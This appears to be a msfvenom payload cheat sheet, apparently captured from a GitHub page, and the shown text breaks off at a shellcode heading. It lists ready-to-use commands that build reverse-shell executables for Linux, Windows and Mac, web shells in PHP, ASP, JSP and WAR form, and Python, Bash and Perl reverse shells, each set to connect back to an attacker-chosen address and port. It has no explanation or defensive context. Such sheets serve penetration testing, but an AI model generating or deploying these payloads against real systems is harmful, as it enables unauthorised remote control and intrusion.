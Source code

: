       *Linux*
      
      msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
      
      *Windows*
      
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
      
      *Mac*

      msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
      
      **Web Payloads**
      
      *PHP*
      
      msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
      
      cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
      
      *ASP*

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
      
      *JSP*

      msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
      
      *WAR*

      msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
      
      **Scripting Payloads**
      
      *Python*

      msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
      
      *Bash*

      msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
      
      *Perl*

      msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*
